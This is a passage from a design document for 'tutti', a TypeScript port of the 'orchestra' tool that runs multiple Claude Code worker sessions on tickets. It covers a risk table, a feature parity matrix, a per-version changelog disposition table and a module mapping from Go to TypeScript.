| OpenTUI's native memory grows with mounted transcript items, about 0.75 MB each once drawn on 0.6.6 and a fifth less on 0.7.0 (#1493, closed upstream, but its script churns rows where a transcript keeps them mounted) | Long runs degrade | Bounded rendering (§7.5): on 0.7.0, 200 items level off at ~135 MB, 600 at ~365 MB; the M0 soak and its rerun on 0.7.0 (docs/spikes/05-opentui-soak.md, § 8) |
| Memory: about 1 GiB per live session | `-c 16` needs a large machine | Sessions closed when not needed (§4.8); `init` and the startup line state the estimate; concurrency default 1, as orchestra's |
| Usage limits on a subscription with many workers | Runs stall for hours | The usage-limit hold waits and resumes by itself (§4.12); the warning shows early |
| Auto mode's classifier unavailable, or refusing everything | Workers can't work | Auto mode's fallback is reported at startup (§4.1); a classifier refusing everything trips the environment hold, as orchestra's docs describe |
| A single process: a crash or closed terminal ends work in flight | Lost turns; without a reaper, a busy worker would go on editing and committing with no tutti | Session IDs saved as each session begins; resume next run; SIGHUP quits cleanly (§4.8); each worker's and command's reaper ends its process group however tutti ends, `kill -9` included (§3.2) |
| Subscription use through the SDK | The SDK's terms ask third-party products not to offer claude.ai login | tutti is a tool you run under your own login on your own machine; it never offers login to others. If it is distributed to others, document API-key use (`--billing api`) as the supported path |
| Claude Code rewords the line saying an untrusted main checkout's allow rules are ignored | The probe misses it, and workers run without the project's allow rules | A contract test pins the line for the embedded Claude Code (§4.13, §13); a reworded line fails it on the bump |
| An SDK update moves or drops `getSettings()` or `current_permission_mode`, neither in the SDK's types | The probe misses skipped settings files, and workers run without your deny rules | A contract test pins both for the embedded Claude Code (§4.13, §13); a bump that moves one fails it |
| Version skew between the SDK and Claude Code | Protocol errors | The embedded binary always matches (§12); `--claude` warns outside the supported range; contract tests on every bump |
| Loss of the "real thing": you no longer see Claude Code's own screen | Less familiar | A worker view designed for reading and steering, with tool calls expandable and the composer; this was chosen knowingly (D3) |

---

## Appendix A: Parity matrix

*Kept* means as orchestra v0.7.7 has it. *Changed* points to the section that says how. *Dropped* is gone, with the reason. What orchestra changed since v0.7.7 is in the second table, [Since orchestra v0.7.7](#since-orchestra-v077).

| Area | Feature | Disposition |
|---|---|---|
| Start | startup checks, every problem listed, exit 2 | Kept (terminal checks dropped; login probe and settings errors added, §4.13) |
| | not set up → `run init` first | Kept |
| | run lock, its JSON, `flock` | Kept (§9.2), file renamed; orchestra's lock taken too; both files emptied on release |
| | start question: Current tickets, Spec or New feature | Kept (§7.1, §5 item 3) |
| | `--tickets`, `--ticket`, `--feature`, `--yes` | Kept, but `--feature` talks the feature through (§4.10) and `--yes` is refused (§8.2), as orchestra 0.8.x |
| | nothing to run, its box and reasons, `DEFERRED_FREE` | Kept |
| Terminals | Herdr, tmux, cmux; `--terminal`, `--workspace`; window names; sessions; `cmux.json` | Dropped (D3) |
| | 1–9 switch tabs | Changed: no numbers; a click, or Tab and Enter, opens a worker view; the highlight stays on its ticket (§7.2) |
| Workers | worker prompt, `TICKET_ID`, scope and time-limit lines | Changed: rewritten where tmux shows; per-start lines in the first message (§4.11) |
| | rules in the system prompt, first message apart | Kept (§4.1), with the snapshot caveat |
| | `prompt.md`, prompt at launch, paste and Enter recovery, `PROMPT_FAILED` | Dropped (§4.3) |
| | hooks as files, `orchestra hook`, record format `v` | Dropped: in-process hook callbacks (§4.2) |
| | activity categories (testing, editing, reading, subagent) | Kept (§4.2) |
| | settle by Stop hook, start-up grace, 10-minute windows, `UNKNOWN >5min` | Changed: exact SDK state (§4.2, §4.3) |
| | continue nudges ×2, then idle grace and `PAUSED` | Kept, not for steered workers (§4.3) |
| | permission prompts: shown, `PERMISSION_PROMPT`, `BLOCKED >4min` | Changed: auto mode; answered in tutti or with `tutti answer`; `BLOCKED` lifted once answered (§4.5, §4.3) |
| | held removals named in the log | Changed: denied by the safety check in auto mode and logged as `DENIED … by the safety check`; asked with Deny first (`defaultToNo`) in default mode (§4.5) |
| | compactions noted | Kept |
| | subagents: a turn doesn't end while one runs | Kept, through `background_tasks_changed` (§4.2) |
| | `CLAUDE_CODE_FORK_SUBAGENT=0` | Kept, for forks only: it doesn't keep the verifier in the foreground (M0) |
| | the verifier in the foreground | Changed: a `PreToolUse` hook sets `run_in_background: false` on its Agent call (§4.1) |
| | MCP servers by name, resolution order, connectors refused, `--strict-mcp-config` | Kept: `strictMcpConfig`, checked at each session's start (§4.6) |
| | no `mcp_servers` → every server | Changed: no servers (Q5) |
| | resume a worker gone from its tab, once per run | Changed: resume a gone session once; closed sessions any number of times (§4.8) |
| | other agent kinds | Dropped (§1.2) |
| | symlink guard `RUN_FILES_OUTSIDE` | Kept (§9.1) |
| | `BAD_TICKET_ID` | Kept |
| | worker edits grow its footprint | Changed: from the worktree's git changes (§5) |
| Scheduling | `bd ready` in scope, `exclude_types`, priority | Kept |
| | parents last; epics closed as their last subticket merges | Kept |
| | follow-ups held until their source merges | Kept |
| | started too early, back in the queue (`WAITS_FOR_MERGE`) | Kept |
| | footprints, predicted files, `LIKELY_CONFLICT` | Kept |
| | solo | Kept |
| | ready poll 30 s, no ticket twice | Kept |
| | `LIMIT`, `DONE_SO_FAR` | `--limit` kept; `DONE_SO_FAR` dropped (§8.2) |
| | `--ticket-limit`, `LONG_RUNNING` | Kept |
| Merge | queue, rebase, `OFF_BRANCH`, `DIRTY_WORKTREE`, `REBASE_FAILED` | Kept |
| | setup command on dependency changes | Kept |
| | merge check, its limit, `check.log`, `FLAKY:` | Kept |
| | conflict hand-back, check hand-back, verification of the result | Kept; waits for a steered worker (§4.7) |
| | recheck after the base moves on | Kept |
| | fast-forward, cleanup, `MERGE_FAILED` (exit 6) | Kept; "tab removed" dropped |
| | one git writer at a time | Kept |
| | `unmerged` label, `unmerged_fork`, merged by hand detected | Kept for closed tickets; tickets in progress aren't labelled (§4.8) |
| | worktree branches `wt/<id>` | Changed: `tutti/<id>` (§11) |
| Stops | `HOLD` drains; `PAUSED`, `BLOCKED`, `TICKET_LIMIT`, … | Kept |
| | `s` and SIGUSR1 drain, take back | Kept (SIGUSR2 as fallback, §7.4) |
| | Ctrl+C: stop at once, workers left running; second quits | Changed: the quit box, sessions suspended (D15, §4.8) |
| | SIGTERM, SIGHUP | Changed: quit now, sessions suspended |
| | Ctrl+Z | Changed: disabled (D18) |
| | a run ends while workers wait on you | Changed: the dashboard waits for you (D19) |
| | environment hold, reopen, probe, exit 7 | Kept (§4.9) |
| | usage limits | New: the usage-limit hold, exit 8 (§4.12) |
| | carry-over through `state.json` | Changed: resume sessions (§4.8) |
| | exit codes | Kept, but 4 no longer covers terminals (no `TERMINAL_FAILED`; the Agent SDK failing to start sessions is `ENVIRONMENT`, exit 7); 8 is new |
| Full check | after a run that ended by itself and merged, own worktree, setup first, P2 ticket per suite | Kept |
| Organs | triage, predictor, reviewer, screen, plan, scout | Kept, on `effect/ai` (§6), but the screen and the plan, dropped as orchestra 0.8.x dropped them (§4.10) |
| | evidence tags with random IDs | Kept |
| | isolation (no tools, no MCP, safe mode, empty dir) | Changed: `tools: []`, `strictMcpConfig`, `settingSources: []`, `permissionPrompts: "none"` (§6.1) |
| | costs logged, total in the report | Kept (§6.1) |
| | triage reads the terminal and the transcript | Changed: tutti's transcript and the attention record (§6.2) |
| Feature | talked through in a pane beside orchestra | Changed: the interview view, the breakdown's session in its feature mode, filing through tutti's tools (§4.10) |
| | planned by the organs (`--feature`) | Kept |
| Dashboard | title, totals, tickets table, Current cards, wind-down line, hint, layouts | Kept (§7.2) |
| | latest action from Claude Code's screen (`⏺`) | Changed: from SDK messages, tutti's glyphs (§4.4, §7.5) |
| | attention on cards, worker view, composer, steering, mouse, key help | New (§4.5, §4.3, §7.3, §7.5) |
| | summary, closing line, report rendered, organ spinners | Kept, printed after the renderer is gone (§7.1) |
| | ticket states (`▶ working`, `◷ to merge`, `◆ merging`, `⟳ resolving`, `⟳ fixing`, `✓ done`, …) | Kept, made an explicit state machine with typed phases and listed transitions (§5.1); `■ answer?`, `▶ retrying` and `◷ limit` added |
| | control sequences stripped from untrusted text | Kept (§7.10) |
| | colour scheme: exact colours with light and dark variants, their meanings, the Charm form theme, glyphs and spinner | Kept as the default scheme, `orchestra` (§7.11); other schemes can be chosen in the settings or written as files; the variant follows a change of terminal theme live |
| | plain output, `TERM=dumb` | Kept (§7.6, §7.1) |
| | notifications (macOS) | Kept, plus Linux and OSC 9 or 777 (§7.9) |
| Init | two steps, flags, Beads install, `bd init`, prefix rename | Kept (§8.3) |
| | terminal check and advice | Dropped |
| | scout, three check choices, runners, setup command, verifier, test-work tickets, create-check-suite skill | Kept |
| | import from `.orchestra/` | New (§8.3) |
| Other | `plan [--apply]` | Kept |
| | `update`, signed releases, install script, provenance | Kept (§12) |
| | `answer`, `login` | New (§8.1) |
| | billing: subscription unless chosen otherwise | New (§4.13) |
| | event stream | Changed: `.tutti/run/events.jsonl` v1 (§10) |
| | the skill for running through an agent | Changed: rewritten for tutti, using `--plain` and `tutti answer` (M8) |

### Since orchestra v0.7.7

orchestra's changes from 0.8.0 to 0.9.1 and those unreleased after it, as its changelog had them on 2026-10-21 (0.8.3 was tagged but never released), oldest first, each with what tutti does about it. *Done* names the ticket that brought it to tutti; *Planned* the ticket that will (under tutti-kkb, unless it says otherwise); *Already so* says where tutti has it without a ticket; *Not needed* says why tutti needs none. Bringing orchestra's own run of tutti up to 0.9.0 (its worker prompt, verifier and `check_own`) is tutti-kkb.34, not a row.

| Version | orchestra's change | Disposition |
|---|---|---|
| 0.8.0 | `--spec` runs: the breakdown, headless or `--refine`; carrying on by `spec_sha256`, update mode; an empty repository; the start question's Spec option; the spec line in a worker's first message; `.orchestra/specs/` left out of footprints | Done (tutti-kkb.28) for a spec on this machine, its copy in `.tutti/specs/`, `--refine` in the Interview view, the breakdown filing through tutti's tools (§4.14); a spec at a web URL, tutti's own (tutti-kkb.53), the start question's Spec option (tutti-kkb.54), a URL accepted there too; orchestra's narrow-tree warning not yet |
| | `worker_permission_mode`, `--worker-permission-mode`; `manual` as `default`'s new name | Already so: `workers.permission_mode`, `auto` unless chosen (§4.5); the SDK names the modes, so there is no `--help` to read |
| | the usage-limit hold, `usage_limit_wait`, exit 8; a worker cut off by the limit shown `limited` | Already so: the usage-limit hold (§4.12), the matrix's usage-limits row |
| | a turn that ends on an API error other than the limit counts as its end (`StopFailure`) | Already so: the result message ends the turn, its error status read (§4.2) |
| | a worker at the limit while it resolves or fixes: the wait doesn't count toward `resolve_timeout` | Done (tutti-kkb.2); one at the limit already when it is to be handed back, handed it once the limit lifts, done (tutti-kkb.48) |
| | the spec a ticket's `spec` metadata names is left out of its footprint | Already so: `src/run/footprint.ts` leaves it out unless the `files` metadata lists it |
| | paths with a `+` (`+page.svelte`) or brackets (`pages/[id].tsx`) in a ticket's text | Done (tutti-kkb.16) |
| | a folder in the `files` metadata holds the files other tickets add in it, there yet or not | Already so: a folder kept as `src/run/` holds the files another ticket adds there (`src/run/footprint.ts`) |
| | a glob in the `files` metadata holds the files other tickets add where it matches; a name with a `[` is also that file | Done (tutti-kkb.40) |
| | `-h` names exit code 8 | Not needed: tutti's help lists no exit codes of a run; `docs/running.md` lists 8 |
| | the README, the docs and the skill describe spec runs | Done (tutti-kkb.28) |
| 0.8.1 | `CLOSED_UNMERGED`: a blocker closed by hand while its branch is off the base holds its dependents; a deleted branch frees them | Done (tutti-kkb.3); the same answer in `WAITS_FOR_MERGE`, `DEFERRED_FREE` and the nothing-to-run box, done (tutti-kkb.36) |
| | a worker's tab closed when its ticket is dispatched again; `LATE_CLOSE`, following a worker left in its tab | Not needed: there are no tabs, and a set-aside ticket's session ends with it (§4.8) |
| | a ticket set aside with nothing done has its worktree and branch removed | Done (tutti-kkb.42) |
| | a feature's session left before it hands the epic back names what it filed (`feature_run`) | Not needed: the breakdown's tools keep what they filed, and leaving names it (§4.10) |
| | a worker that deferred its ticket as it stopped at the limit keeps it in progress; the rules say to commit and stop at the limit | Planned (tutti-kkb.41); the limit itself is read from the SDK's rate-limit events (§4.12) |
| | an organ call refused for the limit starts the hold | Done (tutti-kkb.26) |
| | a Stop isn't a turn's end until the transcript logs it | Not needed: the SDK's result message is the turn's end (§4.2) |
| | `scripts/check.sh` keeps `go test -json` for its `DATA RACE` lines | Not needed: orchestra's own Go check |
| | a feature talked through in the breakdown's session in a feature mode, `--feature` included; no plan shown and no `[y/N]`; a feature run takes a spec run's defaults; the START line's `talked through from` | Done (tutti-kkb.59 for New feature, tutti-kkb.60 for `--feature`); the START line's `feature: epic <epic>, talked through from: <request>` and the report's `The feature request epic <epic> was talked through from`, done (tutti-kkb.61); a spec run's defaults, already so: every tutti run has workers in `auto` mode unless chosen (§4.5) and no ticket limit unless `--limit` gives one (§4.10) |
| | `--yes`, the screen organ and the plan organ removed | Done (tutti-kkb.60): `--yes` refused, `organs.screen` and `organs.plan` read and ignored (§8.2) |
| 0.8.2 | workers, the refinement and the feature interview at `--effort high` unless chosen | Planned (tutti-kkb.14) |
| | a spec's environment setup ticket first, which every other ticket waits for | Done (tutti-kkb.28): filed by `file_root`, P0 and `solo` (§4.14) |
| | long flags written with two dashes everywhere | Not needed: tutti's flags have two dashes (§8.2) |
| | a worker whose terminal drops its agent name is found in its pane and named again | Not needed: no terminals (D3) |
| | the setup in each new worktree before its worker; `SETUP_FAILED` back in the queue; a merged change to the setup settings taken up | Done (tutti-kkb.4) |
| 0.8.4 | `SETUP_WAITS` on the end line, `held_by.setup`, `its setup failed` in `SCOPE_OPEN` | Done (tutti-kkb.4) |
| | footprints leave out the files the full check names | Already so: footprints leave out the files the fast and the full check commands name (`src/run/run.ts`) |
| | a worker that lost its name is found in its pane when set aside or handed back | Not needed: no terminals (D3) |
| 0.8.5 | `check_own`: workers check their own change; the scout's command for each suite on part of the project | Planned (tutti-kkb.8) |
| | the dashboard's load line: workers' memory, memory pressure, CPU | Done (tutti-kkb.25) |
| | `SHARED_MACHINE`, `--machine-workers` and `HOLD: MACHINE`, read every 2 s while held; a registration whose PID was reused ignored | Planned (tutti-kkb.23); the title line's `· shared with N runs` (tutti-kkb.38) |
| | `◼ to merge`, and `◷` only for a ticket waiting on another | Done (tutti-kkb.30); tutti's own `◷ limit` keeps its clock |
| | a handed-back ticket checked once, after rebasing onto the moved base; the hand-back asks for what failed | Planned (tutti-kkb.17) |
| | the verifier checks only what a change touches, and quotes the worker's passing check | Done (tutti-kkb.9) |
| | files git merges by union left out of footprints, `LIKELY_CONFLICT` and `plan` | Done (tutti-kkb.16) |
| | a finished ticket frees its slot as it goes to merge; at most `concurrent` merge without one | Done (tutti-kkb.1) |
| | a check run once, its output kept and its exit status printed; check scripts end with a verdict line | Done (tutti-kkb.10) |
| | every merge checked, a branch already on top of the base included | Done (tutti-kkb.6) |
| | no ticket limit unless `--limit` gives one | Done (tutti-kkb.22) |
| | workers start without the tools they never use; Skill kept for enabled plugins | Done (tutti-kkb.13) |
| | the breakdown, the refinement and the interview get the workers' MCP servers, `--strict-mcp-config` | Already so: every session has `strictMcpConfig`, and the interview's one server is tutti's own (§4.6, §4.10) |
| | the compact Current list's IDs, statuses and times in columns | Done (tutti-kkb.30); no workers' numbers (tutti-zhz) |
| | Ctrl+C keeps a ticket waiting to merge from rebasing after the stop | Already so: a quit interrupts the merge queue, and an interrupted rebase is aborted (§3.4) |
| | a file renamed or copied in the work tree read under its new name | Already so: `git status --porcelain -z`, a rename's old path read apart (`src/services/Git.ts`) |
| | a setup cut short runs again (`setup.started`); a ticket back from a question whose setup fails is requeued | Done (tutti-kkb.4) |
| | the log and the event stream give events emitted at once in one order | Done (tutti-kkb.44): a happening's line and its record are written together, under the log's lock (`Log.writeWith`, a ledger transition's `lines`) |
| | `· machine full` clears once the hold ends | Planned (tutti-kkb.23) |
| | a hook input with an argument of another type loses only that argument | Not needed: the SDK gives hook input typed (§4.2) |
| | git reads no longer take `.git/index.lock` | Already so: reads run with `GIT_OPTIONAL_LOCKS=0` (`src/services/Git.ts`) |
| | Ctrl+C during `update` cancels the download and removes its file; the new binary synced to disk | Already so: `src/update/update.ts` (§12) |
| | away from macOS, a screen's `●` read as `⏺` | Not needed: no screen reading (D3) |
| | a usage-limit hold lifts at its reset while workers run | Done (tutti-kkb.26) |
| | orchestra's own sessions get `--chrome` or `--no-chrome` | Done (tutti-kkb.5) |
| | a check hand-back whose worker commits nothing is checked again | Done (tutti-kkb.7) |
| | a release's GitHub Release carries its changelog section | Already so: the release workflow's notes are `scripts/release-notes.sh`'s |
| | a deleted ticket's ID not taken for one it prefixes; nothing filed under a deleted parent | Done (tutti-kkb.39): `Beads.show` takes another ID for not found, and each write shows its IDs first (§3.3) |
| 0.8.6 | the tickets table without the tickets Current shows | Done (tutti-kkb.30) |
| | a shared file holds two tickets apart only when one of them is to change it | Done (tutti-kkb.16) |
| | the merge train, `merge_train`, and the latest action of a ticket checked ahead | Done (tutti-kkb.18), as `merge.train`, with the action line of a ticket checked ahead (tutti-6c8) |
| | a blank line between the title line and the load line | Done (tutti-kkb.25) |
| | a spec run starts on its environment ticket while the breakdown files the rest; the breakdown files only the root epic and that ticket, and orchestra the rest without a `bd show` each | Done (tutti-kkb.28): `file_root`, then `file_breakdown`'s one answer, filed by tutti; the run's banner while it files (§4.14) |
| | fewer git commands for the same results, and a merge naming its commit from what it read | Not needed: orchestra's own git calls; tutti's Git service is its own |
| | the feature interview's line keeps the epic's ticket count in a narrow pane | Not needed: orchestra's pane; tutti's interview view is its own (§4.10) |
| | a worker's own `/resume` not read as gone | Not needed: no terminals (D3) |
| | a predicted footprint for a running ticket leaves out union-merged files | Done (tutti-kkb.16) |
| | a ticket dispatched again while its earlier worker waits on the limit adopts that worker | Not needed: the ledger keeps one session for a ticket, and no ticket is taken twice (§5) |
| | Ctrl+C while `init` writes the setup writes all of it, then says `stopped`, exit 130 | Planned (tutti-kkb.31) |
| | each figure on the load line in the colour of its own signal | Done (tutti-kkb.25) |
| 0.9.0 | a worker prompt or verifier older than the templates said under START; `templates` in the settings; `init --update`, keeping the lines for each suite on part of the project | Planned (tutti-kkb.15) |
| | each worker's share of the cores, `ORCHESTRA_CORES` and `GOFLAGS` `-p` | Done (tutti-kkb.24), the other runs' workers counted (tutti-kkb.37) |
| | the verifier passes Bash no timeout; `BASH_DEFAULT_TIMEOUT_MS` and `BASH_MAX_TIMEOUT_MS`; the rules on giving a check its time | Done (tutti-kkb.11) |
| | a hand-back's time limit leaves out the time the machine is loaded | Done (tutti-kkb.47) |
| | footprints leave out notes; a ticket with commits footprinted from its branch, in the run and in `plan` | Done (tutti-kkb.16) |
| | `CLOSED_UNCOMMITTED` names the files left uncommitted | Done (tutti-kkb.19) |
| | a verifier round sees the earlier rounds' findings, `DISAGREES WITH ROUND <n>:` | Done (tutti-kkb.9) |
| | a stop as a spec run commits its setup says it was committed | Done (tutti-kkb.28): the commit and its line are uninterruptible (§4.14) |
| | a ticket checked ahead whose own check failed blames itself, not the branch ahead | Done (tutti-kkb.18) |
| | a worker its terminal doesn't show read again for 30 s; one PAUSED twice, then found back in its tab, adopted | Not needed: no terminals; a session's state is the SDK's (§4.2, §4.8) |
| | a ticket set aside and merged by hand mid-run found as the base moves; a drain names the tickets it keeps from their recheck; a dropped carried-over ticket's worktree and branch removed | Done (tutti-kkb.20) |
| | a conflict hand-back told to run the setup when its rebase brought in a setup file's change | Done (tutti-kkb.4) |
| | a hand-back at the limit or past its time limit takes a finished result from git, else stops its worker and says so | Done (tutti-kkb.2) |
| | the failure lines of jest, vitest, node, pytest, cargo, mocha and TAP | Done (tutti-kkb.21) |
| | a ticket coming to an end not shown twice, in Current and the table | Done (tutti-kkb.30): one projection gives both, the table leaving out every ticket with a card |
| | git failing told from git saying no: dependents wait while git can't tell; `WORKTREE_FAILED`, `GIT_FAILED` | Done (tutti-kkb.3) for the dependents; the merge's reads asked up to 3 times, a failure "can't tell" (tutti-dbn): a worktree git can't read sets its ticket aside, the main repository stops the merges, `GIT_FAILED` (`src/run/merge.ts`); the rest already so: git's errors are typed, never read as an answer, and stop the run with `GIT_FAILED` or `WORKTREE_FAILED` (`src/run/run.ts`) |
| | a check that fails as a hold comes up isn't handed back | Already so: a check hand-back reads the holds as it decides (`src/run/checkback.ts`) |
| | Ctrl+C during `plan --apply` says which links it added, exit 130 | Done (tutti-kkb.43): the link under way is added whole (`src/plan/plan.ts`) |
| 0.9.1 | the `requires` list: checked and installed at each run's start, `REQUIREMENTS_MISSING`, `orchestra requires`, the README's section from it, workers told of it | Done (tutti-kkb.27), the check again after a merge that changes the list (tutti-kkb.49) |
| | a spec's environment ticket writes the `requires` list | Done (tutti-kkb.28): the instructions ask its worker for the list's entries, checked and installed by their own commands (§4.14) |
| | no to-do checklist in the worker prompt | Planned (tutti-kkb.12) |
| Unreleased | the answer talk: `a` on the dashboard, `orchestra answer`, `"questions"`; a decision about another ticket filed as a question with options | Planned (tutti-kkb.35) |
| | `--overnight`: the pre-flight checklist, its fixes, the open questions put before the first ticket | Done (tutti-kkb.46): the flag, the pre-flight checklist and its fixes, asked as lines below the checklist on purpose (§5 item 2), with no fetch of the base (tutti's runs never fetch) and no overnight badge (§8.2), on purpose; the open questions before the first ticket, Done (tutti-kkb.51): put in tutti's own form in the renderer, or as lines, rather than a Claude Code session, on purpose (§5 item 2); a stuck ticket set aside rather than holding the run, Done (tutti-kkb.52, §5 item 10): its worker stopped and its session closed rather than left in its tab, as tutti has no tabs |
| | `keep_awake`, and an overnight run kept awake | Done (tutti-kkb.45, tutti-v0tn) and on by default since (tutti-22jf), `keep_awake` in the settings and, over it, the user config, on purpose (§8.2); the overnight run's, Done (tutti-kkb.46): `--overnight` keeps the machine awake whatever `keep_awake` says |

## Appendix B: Where orchestra's code goes

| orchestra (Go) | tutti (TypeScript) |
|---|---|
| `cmd/orchestra` (flags, settings, init, plan, signals, organ phase) | `src/cli/` (`effect/cli` → `AppConfig`), `src/init/`, `src/plan/`, `src/answer/`, `src/main.ts` (`BunRuntime.runMain`, signals) |
| `internal/dispatch` (one file per concern) | `src/run/`, one module per concern with the same names, plus `phase.ts` (the ticket state machine, §5.1): `schedule.ts`, `start.ts`, `work.ts`, `asked.ts`, `carry.ts`, `settle.ts`, `merge.ts`, `mergequeue.ts`, `check.ts`, `checkback.ts`, `handback.ts`, `recheck.ts`, `setup.ts`, `holds.ts`, `unmerged.ts`, `aside.ts`, `deferredFree.ts`, `scope.ts`, `nothing.ts`, `footprint.ts` (with `glob.ts`, `text.ts`, `repoFiles.ts`, `overlap.ts` and `codeText.ts`), `drain.ts`, `environment.ts`, `usageLimit.ts`, `fullcheck.ts`, `trash.ts`, `predict.ts`, `advice.ts`, `events.ts`, `eventstream.ts`, `log.ts`; `run.ts` (the run) with its parts `holdsGate.ts`, `machineGate.ts`, `screenCommands.ts`, `blockedWatch.ts`, `look.ts` (the loop, its end decided by `runEnd.ts`), `quitting.ts` and `endOfRun.ts` |
| `internal/beads`, `internal/git`, `internal/command` | `src/services/Beads.ts`, `Git.ts`; `effect/process`'s `ChildProcess` with tutti's limits and process groups in `src/services/exec.ts` |
| `internal/herdr`, `internal/tmux`, `internal/cmux`, `internal/hookterm`, `internal/claude` (hooks) | dropped; `src/agent/` (`AgentHost`, `ClaudeCode`, `WorkerState`, `Attention`, `Account`, `Transcripts`, the embedded binary) |
| `internal/mcp` | `src/agent/mcp.ts` |
| `internal/organ` (+ `prompts/`) | `src/organs/` (+ `prompts/`), `src/organs/AgentSdkLanguageModel.ts` |
| `internal/project` (settings, prompt, init files) | `src/project/` (Schema-defined settings and user config, templates) |
| `internal/tui` (Bubble Tea) | `src/ui/` (OpenTUI React: `Dashboard`, `Card`, `AttentionCard`, `TicketsTable`, `WorkerView`, `Composer`, `InterviewView`, `InitForm`, `StartQuestion`), `src/ui/worker/` (the worker view's pieces, taking plain props: its head, the transcript's items, the request panel and the Markdown's looks; `useWorkerScreen`, its worker and the commands it sends), `src/ui/plain/` (the line-based forms), `src/print/` (summary and report after the renderer), `src/ui/sanitize.ts`, `src/ui/theme.ts` (the roles, the scheme loader and the styles), `src/ui/schemes/orchestra.json` (from `internal/tui/style.go` and huh's Charm theme) |
| `internal/update` | `src/update/` |
| test helpers `faketool`, `claudetest`, `tmuxtest`, `cmuxtest`, `gittest` | test layers per service (§3.3); `test/git.ts` for real-git scenarios; recorded SDK fixtures; no fake executables needed |
